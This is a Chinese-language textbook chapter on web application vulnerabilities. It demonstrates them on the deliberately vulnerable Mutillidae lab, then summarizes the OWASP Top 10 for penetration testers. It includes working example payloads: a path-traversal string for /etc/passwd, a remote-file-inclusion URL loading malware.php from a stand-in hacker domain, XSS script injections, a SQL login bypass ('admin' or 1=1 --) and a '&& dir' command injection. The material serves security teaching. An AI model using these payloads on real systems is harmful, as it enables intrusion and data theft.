




# 第五章：了解 Web 应用程序漏洞

本章将成为你应用程序安全性的主要支柱。你将了解该领域中最常见漏洞背后的逻辑。大多数远程执行的攻击都利用 Web 应用程序基础设施进行入侵。在网站上发现像 SQL 注入这样的漏洞可能非常危险，因为攻击者可以完全控制服务器。

Web 应用程序是用不同的编程语言编写的，但最常见的语言是 Java、.NET 和 PHP。如今，我们看到 Web 应用程序编程正在发生转变，JavaScript 语言或前端发挥了重要作用。公司正在使用轻量级的前端技术，如 AngularJS，来实现单页面应用程序的理念。作为一名应用程序安全渗透测试员，你需要了解这些技术中存在的漏洞，因为开发人员往往使用这些炫酷的功能而没有理解其带来的安全风险。

因此，本章将解释可能发生在 Web 应用程序中的攻击，完成本章后，你将能够在渗透测试中手动操作你的发现，运用你的技能。在本章中，你将学习以下重要内容：

+   远程和本地文件包含

+   **跨站脚本攻击** (**XSS**)

+   **跨站请求伪造** (**CSRF**)

+   **SQL 注入** (**SQLi**)

+   命令注入

+   OWASP 十大安全漏洞

# 文件包含

顾名思义，这种漏洞可以通过在 URL 中包含文件（通过输入路径）来利用。被包含的文件可以是服务器本地的，因此称为 **本地文件包含**，也可以是指向远程文件的路径，因此称为 **远程文件包含**。

现代编程语言和 Web 服务器内置了保护机制以防止此类缺陷。不幸的是，在现实中，你会遇到许多由遗留编程语言（如 JSP（Java）、ASP（Microsoft）和 PHP）开发的应用程序，因此仍然有可能找到类似的漏洞。造成此问题的一个原因是开发人员忘记在服务器端进行验证。

# 本地文件包含

**本地文件包含** (**LFI**) 是通过在 URL 中包含指向托管 Web 应用程序的本地 Web 服务器的文件路径来利用的。当这个漏洞被利用时，会允许注入目录遍历字符（如点点斜杠）。

考虑以下示例：

```
http://domain_name/index.php?file=hackme.html
```

如果我能将 `hackme` 文件更改为 Web 服务器系统上的另一个文件，怎么办？让我们来看看吧！

```
http://domain_name/index.php?file=../../../../etc/passwd
```

有趣吧？这将加载 Linux Web 服务器上的 `passwd` 文件。让我们看一个更具体的例子，使用 Mutillidae：

1.  浏览到 Mutillidae 首页，选择左侧菜单中的 OWASP 2017，然后选择 Broken Access Control | 不安全的直接对象引用，接着点击任意文件包含：



1.  看一下这个网址，你看到我们刚才一起看到的相同模式了吗？


1.  让我们试试看能否从服务器上显示一个文件：


看！我刚刚利用了这个漏洞。现在，试试自己操作吧。

# 远程文件包含

**远程文件包含**（**RFI**）是通过在 URL 中包含一个指向远程文件的文件路径来利用的，这个文件路径指向托管 Web 应用程序的 Web 服务器之外的远程文件。

考虑以下示例：

```
http://domain_name/index.php?file=http://hacker_domain/malware.php
```

在前面的 URL 中，受害者服务器将加载位于黑客服务器上的`malware.php`页面。让我们通过使用 Mutillidae 来看一个实际示例：

1.  浏览到 Mutillidae 首页并选择 OWASP 2017。我们将选择之前用于本地文件包含的相同菜单，即，**破损访问控制** | **不安全的直接对象引用** | **任意文件包含**。

1.  所以，这是我们之前测试过的本地文件包含页面，但现在，我们将看看能否包含一个远程文件。在利用这个漏洞之前，我们需要先在服务器级别进行一些更改。此页面为您提供了更改服务器配置文件的帮助。我将登录到 Web 服务器并更改`C:\xampp\php\`下的`php.ini`文件（如果你使用 Linux 托管 Mutillidae，你的路径会有所不同）：


1.  现在我们已经更改了配置，使用 XAMPP 控制面板重新启动 Web 服务器。让我们看看是否能攻破这个页面。所以，修改 URL，让它指向并加载另一个站点，`http://ethicalhackingblog.com`：


正如你所看到的，我成功地将我的博客网站加载到了 Mutillidae 应用程序中。试想一下，如果黑客将他的感染网站加载到另一个对数百万用户可访问的应用程序中，比如 Facebook，或者你的客户/雇主的网站，造成的损害将是灾难性的。

# 跨站脚本攻击

**跨站脚本攻击**（**XSS**）是在攻击者能够在受害者的浏览器上成功执行任何类型的脚本（例如，JavaScript）时被利用的。这类漏洞的存在是因为开发人员没有验证请求或没有正确编码应用程序的响应。JavaScript 并不是唯一用于 XSS 的脚本语言，但它是最常见的（事实上，这是我最喜欢的）；攻击者有时还会使用其他脚本语言，如 VBScript、ActiveX、Flash 等。

XSS 非常普遍，在测试 Web 应用时我每天都会遇到。每当我看到页面上显示的信息反映了用户的输入或行为时，那么它很可能存在 XSS 漏洞。但不用担心，随着经验和实践的积累，很多问题会变得更加明显。XSS 攻击有三种类型：**存储型**、**反射型**和**DOM 注入**。我们从最容易理解的反射型 XSS 开始。

# 反射型 XSS

这个漏洞常常在页面展示给用户的内容可以通过 URL 或页面正文动态修改时被利用。没有什么比视觉示例更能说明问题了，接下来我们来看一个使用 Mutillidae 的反射型 XSS 案例：

1.  在你的 Kali Linux 上，打开浏览器并访问首页，然后在左侧菜单中选择 OWASP 2017 | Cross Site Scripting | Reflected | DNS Lookup。你需要测试的第一件事是正常路径，所以让我们输入一个真实的 IP 地址（在这个例子中，我使用的是`10.0.0.1`，也就是我的家庭路由器）并点击“Lookup DNS”按钮：


1.  如您所见，页面已经显示了我们刚刚输入的 IP 地址。这意味着，如果我将 IP 地址替换为一段 JavaScript 代码，它将执行该代码。在文本框中，将 IP 地址替换为测试脚本，`<script>alert(1)</script>`：


1.  点击“Lookup DNS”按钮，看看这个脚本是否会执行：


在这个例子中，我使用了`alert(1)` JavaScript，通常这就足够用于渗透测试了。另一方面，黑客会使用更复杂的 JavaScript 逻辑来收集受害者的个人信息。

如果你想了解更高级的 XSS 攻击，可以在你的 Kali Linux 主机上查看**Beef XSS 框架**。使用这个工具后，你会对 XSS 漏洞带来的攻击选择感到惊讶。

# 存储型 XSS

第二种攻击是存储型 XSS。利用这种漏洞时，攻击者通过页面（例如博客、CMS、论坛）将脚本（JavaScript）保存到某个存储位置（例如数据库、文件、日志）。这个漏洞很危险，因为它是持久的，且在任何人稍后访问受感染页面时都会执行。想象一下，在 Facebook（或任何社交媒体平台）上，你可以提交一条包含 JavaScript 代码的帖子，任何看到该帖子的用户都会执行这段代码；是不是很惊人？

请不要在 Facebook 上尝试——我这里只是给出一个例子，你可不想惹麻烦！（顺便说一下，Facebook 和其他大公司提供漏洞赏金计划，如果你发现任何漏洞，他们会付钱给你。）

这就是我们需要 Mutillidae 的原因；它帮助我们测试这个概念并查看它是如何工作的：

1.  进入 Mutillidae 的首页，然后在左侧菜单中选择 OWASP 2017 | Cross Site Scripting | Persistent | Add to your blog：


1.  和之前一样，我们将尝试插入与之前相同的 JavaScript 警报，并通过点击**保存博客条目**按钮来执行它（但这次它将作为博客内容被存储）：


现在，每次用户访问这个博客时，页面加载时都会弹出 JavaScript 警报，因为它被存储在数据库中。

# 利用头部进行存储型 XSS 攻击

另一个我想与您分享的有趣示例是使用头部将 JavaScript 注入页面。很狡猾吧？但是不要惊讶，网络应用程序的本质使我们能够通过头部操控网页。

让我们可视化这个案例，以便您能更好地理解：

1.  访问 Mutillidae 的主页，然后在左侧菜单中选择 OWASP 2017 | 跨站脚本攻击 | 持久性 | 查看日志：


1.  此页面记录了每次访问 Mutillidae 应用程序的情况。第三列存储了访问者的浏览器代理值。如果该访问者是恶意的，使用 Burp 将他的浏览器代理替换为 JavaScript 会怎样？


1.  所以，我将使用 Burp 的代理选项卡拦截页面，然后通过 JavaScript 警报修改浏览器代理，并将其转发到服务器（使用转发按钮）：


看！这是我们使用 XSS 技巧在 Burp 中更改浏览器用户代理的结果。这是一个持久性的 XSS 攻击，每次该网站的管理员访问此页面时，都会看到我们的有效负载。

# DOM XSS

在上述前两种类型中，我们已经使用 HTML 利用了 XSS 漏洞。然而，DOM XSS 注入是通过 JavaScript 代码完成的，而不是通过 HTML 元素。让我们看一个实际的例子：

1.  访问 Mutillidae 的主页，然后在左侧菜单中选择 OWASP 2017 | 跨站脚本攻击 | 基于 DOM 的 | 密码生成器。

此页面使用用户名查询字符串值（在本例中为匿名）在页面上显示（它显示为“此密码适用于[用户名]”）。

1.  首先，让我们尝试在 URL 中将匿名用户名的值更改为`gus`：


1.  让我们通过按*F12*键查看页面源代码，看看我们是否能分析它。在 Firefox 的开发者工具中，按*Ctrl* + *F*查找 DOM 中的`gus`。第一次匹配会显示 HTML 部分，第二次匹配会显示 JavaScript 部分：

```
<script>try{ document.getElementById("idUsernameInput").innerHTML = "This password is for gus"; }catch(e){ alert("Error: " + e.message); }// end catch</script>
```

1.  看一下结果，我们可以操作 DOM 字符串，使其在 JavaScript 中看起来合法并且可执行：

```
try{document.getElementById("idUsernameInput").innerHTML = "This password is for   ";}catch(e){};alert(1);try{v=" ";}catch(e){alert("Error: " + e.message);}
```

1.  然后，转到 Burp/Decoder 中的解码器选项卡，并将该值粘贴到那里，将其编码为 URL（在右侧部分选择“Encode as...”然后从下拉列表中选择“URL”）：


1.  最后，让我们将编码后的结果粘贴到密码生成器页面的 URL 中。点击浏览器中的刷新按钮，你应该会看到一个警报：


# JavaScript 验证

如果页面受到了 JavaScript 验证保护，你认为我们还能攻击它吗？当然可以；JavaScript 验证是不够的——我们还应该在服务器端进行验证。让我们看看如何使用 Burp 克服 JavaScript 验证：

1.  首先，我们将安全级别切换到 1，这样就会启用 JavaScript 验证，方法是点击 Mutillidae 菜单栏中的**Toggle Security**按钮：



1.  尝试从菜单中访问上述相同页面；在左侧菜单中，选择 OWASP 2017 | 跨站脚本攻击 | 反射型 | DNS 查找，然后让我们尝试执行我们的警报脚本：


如你所见，脚本被浏览器阻止了，它甚至没有允许我继续输入脚本，因为文本框字段上应用了验证规则。但这不应该成为阻止我们继续前进的原因；我将启用浏览器中的代理（如我在上一章中向你展示的），并启动 Burp/Proxy 来拦截请求：


1.  我将更改`target_host`值并插入我的警报脚本。接下来，我们将其转发到服务器（使用“Forward”按钮）：


看这里！JavaScript 成功执行了：



# 跨站请求伪造

**跨站请求伪造**（**CSRF**）（有些人将其发音为*sea surf*），当攻击者利用用户会话执行更改状态的请求时，如发布到社交网络平台、转账等，可以被利用。

这种攻击将需要攻击者进行一些社会工程学操作，来说服受害者访问被感染的站点。假设受害者是系统的管理员，那么攻击者可以在该系统没有 CSRF 保护的情况下操控它。在应用安全工程师职位的面试中，最常见的问题是：*XSRF 和 XSS 有什么区别？* 答案越简洁越好。简而言之，XSS 攻击依赖于在受害者的浏览器中执行 JavaScript，而 XSRF 依赖于利用受害者的会话。下次面试时，记住这一点，或许这能帮助你获得梦寐以求的工作！

首先，你需要理解一个重要的基本概念。当你第一次对网站进行身份验证时，一个会话 cookie 会为你唯一创建，并且该 cookie 将保持有效直到过期。这个概念的另一个棘手之处在于，即使你浏览到另一个站点（例如攻击者站点），你的会话 cookie 仍然会保持。我们来看一个 CSRF 的例子：

# 步骤 01 - 受害者

受害者将在这种情况下使用 Mutillidae 的登录页面登录他的账户。一旦登录，他会浏览到他的博客页面（使用左侧菜单，然后选择 OWASP 2017 | CSRF | 添加到你的博客）。他用博客添加了一篇新文章（你知道这个家伙是个超级博客写手！）：


# 步骤 02 – 攻击者

另一方面，攻击者已经访问了同一个博客网站，并且他有一个不同的账号，每天用来发布关于匿名活动的博客文章。攻击者发现这个网站已经存在跨站请求伪造（CSRF）漏洞，他使用他最喜欢的扫描工具 Burp 进行了扫描。接下来，他将构建一个恶意页面来感染他的受害者。为了构建该页面，他启用了 Burp 的代理/拦截功能，分析 Web 请求的内容。在拦截页面中，他会右键点击请求并尝试生成 CSRF POC（概念验证）：


此后，一个新的弹出窗口会出现。在这一刻，攻击者可以将生成的 HTML 代码复制出来，并使用 Burp 生成的内容（通过点击复制 HTML 按钮）：



然后，攻击者 Elliot 将这段 HTML 代码保存到他的 Kali 机器的 web 服务器上（他将 HTML 文件复制到`/var/www/html/`目录，并使用命令`service apache2 start`启动了 Apache 服务器）：


现在，Elliot 的服务器已经准备好让受害者访问。他运用了社会工程学手段，成功说服受害者访问该页面并点击这个神奇的按钮：

为了让这个攻击成功，受害者需要先通过 Mutillidae 登录。记住，我们将使用他的会话，因此我们需要确保他已登录系统并且会话处于活动状态！[](Images/716b77e0-3182-439f-9063-18fe7fe9ca59.png)

# 结果

点击这个按钮（提交请求按钮）后，受害者将会惊讶地发现，当他访问自己的博客页面时，看到了一篇他没有保存的博客。哎呀！太可惜了，先生，受害者，因为博客存在 CSRF 漏洞！


# SQL 注入

SQL 注入是我最喜欢的攻击方式，也是你在职业生涯中最危险的一种。SQL 注入漏洞允许恶意用户通过 Web 浏览器在数据库上执行 SQL 命令。这个问题的根源和其他 Web 漏洞类似；开发人员忘记在服务器端添加验证以防范 SQLi 攻击。

这是最有趣的部分；SQL 注入漏洞将允许你做以下事情：

+   使用 `select` 语句查询数据库（例如，选择 users 表，从而提取用户名和密码）

+   通过执行成功的查询结果绕过登录页面（你将很快看到一个示例）

+   在数据库中执行系统命令以入侵 Web 服务器

+   执行插入/删除命令以操作数据库中的记录

该展示的时候到了，大家准备好震惊吧！你将看到这个漏洞对系统的威力有多强大。

# 绕过身份验证

当用户尝试进行系统身份验证时，后端会执行一个类似这样的查询（在这个示例中，我使用的是我登录 Mutillidae 时的凭据）：

```
select * from users where username='gus' and password='password123'
```

执行前述查询后，数据库将检查记录是否存在，如果存在（记录确实存在），则返回布尔值`True`，并且用户通过身份验证。黑客将利用这个理论，通过一个始终返回`True`值的查询来欺骗数据库：

```
select * from users where username ='admin' or 1=1 -- and password = ''
```

`or 1=1`将始终返回一个正确的值，而`--`符号告诉 MySQL 在其后面的内容是注释，因此它会忽略查询的其余部分；巧妙吧？

在 Mutillidae 中测试这个思路，在菜单中选择：OWASP 2017 | 注入 SQL | SQLi - 绕过身份验证 | 登录。

一旦你进入登录页面，输入我们之前看到的魔法查询来绕过此页面的身份验证（有时你需要在`--`后输入一个空格字符才能使此查询生效）：


看这里，伙计们！我是一个超级管理员已认证用户（见下图截图）：


# 从数据库中提取数据

大多数在线泄露的密码就是通过这种攻击方式获得的。如果你在渗透测试中遇到这个漏洞，那就意味着你中了大奖。这里的关键是能够执行著名的查询：

```
select * from users
```

假设数据库中有一个用户表，这个查询将从数据库中提取所有用户的记录。这就像圣诞节一样；你将得到所有的用户名和密码，仿佛是包裹里的礼物。

# 基于错误的 SQLi 枚举

这种技术依赖于操控任何输入（例如，查询字符串）到后端，并等待错误消息出现。

没有什么比真实示例更有说服力了，让我用 Mutillidae 给你展示一个例子：

1.  在 Mutillidae 的首页，从左侧菜单中选择以下项目：OWASP 2017 | 注入 SQL | SQLi - 提取数据 | 用户信息 (SQL)。

1.  在用户查找页面，输入你的凭据并点击“查看账户详情”按钮：


此页面在后端执行一个查询以获取我们的用户名和密码。让我们在名字字段中输入一个单引号`'`并检查结果（单引号）：


如你所见，底部有一个错误信息，告诉我们 SQL 服务器无法理解我们的单引号：

```
select * from accounts where username=''' and password=''
```

1.  换句话说（在黑客世界中），SQL 数据库执行了我们的单引号，因此我们可以编写自己的查询来从数据库中提取数据。如果我们尝试执行绕过登录页面的魔法查询（`admin' or 1=1 --`），那么猜猜看？数据库将很高兴地返回所有账户表中的记录：


# Blind SQLi

当我们没有详细的错误消息，且数据库仍然在后台执行查询时，我们就可以盲目地进行 SQL 注入：这被称为**盲 SQL 注入**。你可以使用前面展示的相同示例，但假设服务器不会为你返回错误消息。最终，你仍然可以执行魔法查询（`admin' or 1=1 --`）。

# 命令注入

命令注入非常简单，你只需要通过在网页上执行命令来利用它，因为它允许你这么做。换句话说，如果你曾经看到一个页面提供了在后台执行命令的功能，那么它很可能容易受到这种攻击。命令注入在**CTF（夺旗赛）**中非常流行，因为它允许你完全控制远程机器（托管网页应用程序的机器）。

一如既往，让我们使用 Mutillidae 来看一个实际例子。打开左侧菜单 OWASP 2017 | 注入 | 命令注入 | DNS 查找：


这个页面在后端执行 DNS 查找命令。在这个例子中，我输入了 IP 地址`10.0.0.1`并点击了**Lookup DNS**按钮。

你认为我们能否覆盖此页面的正常行为并执行任何我们喜欢的命令？（或者可能执行一个后门，例如`netcat`，仅供参考）。我们先来分析一下这个页面的功能。我们将 IP 地址（或主机名）作为变量传递给后端的一个函数，后端很可能是以如下方式执行的：

```
nslookup [domain name variable]
```

如果我们运气好，而且开发者没有做验证，我们可以在变量后附加其他命令，应用程序将会很高兴地为我们执行它。我们的目标是让后端执行如下内容：

```
nslookup [domain name variable] && [other command]
```

让我们看看这是否有效！对于 POC，我将使用`dir`命令（因为它是托管 Mutillidae 的 Windows 机器）。

我将在主机名/IP 中输入 IP 地址和`dir`命令：`10.0.0.1 && dir`，然后点击 Lookup DNS 按钮：


太棒了！`dir`命令已成功执行！

# OWASP Top 10

在前面的章节中，你已经看到了 OWASP Top 10 中最重要的 Web 应用程序漏洞。OWASP 列表中包含的项目比你到目前为止看到的还要多。应用程序安全专家在职业生涯中总是将 OWASP Top 10 作为参考。这个列表始终由 OWASP 社区保持更新，最新版本就是你在 Mutillidae 菜单中看到的 OWASP Top 10 – 2017；如果你在未来阅读这本书，可能会看到更新的版本。

如果你对前面提到的十大项目中的任何一项存在疑问，请不要担心，因为我们将在本书后面的 Web 入侵测试部分使用更多实际示例再次回顾这些项目；目前，尽量从大局上理解。

让我们以简化的方式来看看排名前十的项目，这样你可以从高层次的视角理解这些漏洞。

# 1 – 注入漏洞

注入漏洞可能发生在由于缺乏清理而导致攻击者可以在后台注入并执行自定义命令的情况下。在本章中，你已经看到了 SQL 注入和命令注入，但还有更多类型，例如 LDAP、XPath、NoSQL、**对象关系映射**（**ORM**）工具、XML 解析器和 SMTP 头（这个列表还在不断增加）。

# 2 – 身份验证失败

当黑客找到用户的身份、凭证（包括用户名和密码）或 Web 会话时，会发生这种漏洞。系统可能会在以下情况下发生：

+   允许自动化攻击，攻击者可以猜测有效的用户名和密码

+   允许暴力破解或其他自动化攻击

+   允许使用默认的、弱的或常见的密码，例如`Password123`

+   使用弱或无效的凭证恢复和忘记密码方法

+   使用明文、加密或弱哈希的密码

+   在 URL 中暴露会话 ID

+   在成功登录后未正确管理会话

# 3 – 敏感数据

当 Web 应用程序以明文处理机密信息时，无论是在静态状态下（例如，数据库连接字符串密码以明文形式存储）还是在传输过程中（例如，使用 HTTP 而不是 HTTPS），都会发生此漏洞。实际上，你需要注意以下问题：

+   缺少安全头（稍后我们将在讨论安全编码实践时向你展示安全头）

+   任何在静态状态或传输过程中使用的弱加密算法（例如，MD5）

+   任何用于传输数据的明文协议（例如，HTTP、FTP、Telnet 或 SMTP）

+   任何 TLS/SSL 证书的问题

# 4 – XML 外部实体

仍然使用 XML/SOAP Web 服务的旧应用程序最容易受到此类攻击。事实上，任何使用 XML 来执行其功能的应用程序（或后端）都会成为这种漏洞的受害者；这种攻击可能导致拒绝服务（DOS）。因此，以下是你在处理 XML 项目时应牢记的清单：

+   应用程序是否使用早于 1.2 版本的 SOAP？

+   应用程序是否在联合身份认证或**单点登录**（**SSO**）环境中使用 SAML？

+   应用程序是否支持任何 XML 文件上传？

+   应用程序是否执行 XML 中的任何可被篡改的项目？

# 5 – 访问控制破坏

当攻击者能够执行他不允许执行的功能（例如，管理员权限）时，就会发生这种攻击。这个漏洞可能导致信息泄露以及执行不想要的操作，如删除、添加或修改数据。从实际操作的角度看，作为渗透测试人员，问自己以下问题：

+   你能调用后端 Web 服务（SOAP 或 REST）并执行非预期的操作吗？

+   作为普通用户，你能调用管理员功能吗？

+   服务器是否验证**JSON Web Tokens**（**JWT**）？

# 6 – 安全配置错误

这个漏洞是由于服务器（Web、Web 服务或数据库）中的不安全配置引起的。它包括基础设施级别的配置，而不仅仅是应用程序层面的配置。作为一名应用程序安全专家，你需要检查基础设施层级的安全性和应用程序层级的安全性。我们来看一些可以给我们提供灵感的建议：

+   是否有任何生产服务器（Web、Web 服务或数据库）缺少补丁？

+   是否有任何生产服务器（Web、Web 服务或数据库）存在默认的非安全设置？（例如，默认凭证。）

+   是否在任何服务器上启用了不必要的服务？

+   应用程序是否使用显示给用户的默认错误消息，透露堆栈跟踪的详细信息？

+   是否有任何开发环境被部署到生产环境中？（例如，测试页面、测试凭证、测试数据。）

# 7 – 跨站脚本攻击（XSS）

你应该已经知道这个漏洞了吧？只需提醒一下：当攻击者能够在浏览器上执行 JavaScript 时（反射型、存储型或基于 DOM 的 XSS 攻击），就会利用此漏洞。

# 8 – 不安全的反序列化

这个情况很少见，可能在你的职业生涯中永远也不会遇到，但既然它出现在列表中，我还是得给你一个解释。这个攻击可以在任何序列化/反序列化数据的系统上执行。当攻击者修改应用程序的逻辑或试图运行远程代码执行时，如果应用程序中有能够改变行为或在反序列化过程中或之后执行的对象，就可以实现此攻击。

# 9 – 使用存在已知漏洞的组件

这个漏洞与不安全或易受攻击的应用程序组件有关（例如，第三方库）。在实践中，总是问自己以下问题，看看是否存在这种漏洞：

+   应用程序是否使用了任何不安全的库？

+   是否使用了任何未修补/遗留软件？

+   是否使用了任何不安全的组件来支持应用程序？（例如，Flash、ActiveX、VBS 等；你懂的。）

# 10 – 日志记录与监控不足

不足的日志记录和监控将允许攻击者在没有任何检测的情况下发动攻击。此外，不足的日志记录还将无法证明任何行为。换句话说，我们无法验证用户行为的否认。例如，一个用户可以在我们的在线商店购买一件价值 0$的商品，但我们没有任何证据证明他/她做过这件事。

# 总结

希望你已经很好地理解了这一章！我是认真的；这一章是你理解应用安全漏洞的关键。如果你对前面提到的任何内容有疑问，请停下来再复习一次。你应该已经在实验机上安装了 Mutillidae，并开始练习所有前面的示例。

本章讨论的主题并没有涵盖所有的 Web 应用漏洞，但我涵盖了你在职业生涯中将会遇到的最重要的一些。SQL 注入是最危险的，而跨站脚本（XSS）则是你在 Web 渗透测试中最常遇到的漏洞。

接下来，我们将反复回顾这些漏洞，这就是为什么你必须掌握这一章的原因；如果你没有掌握，接下来的章节你将很难理解。
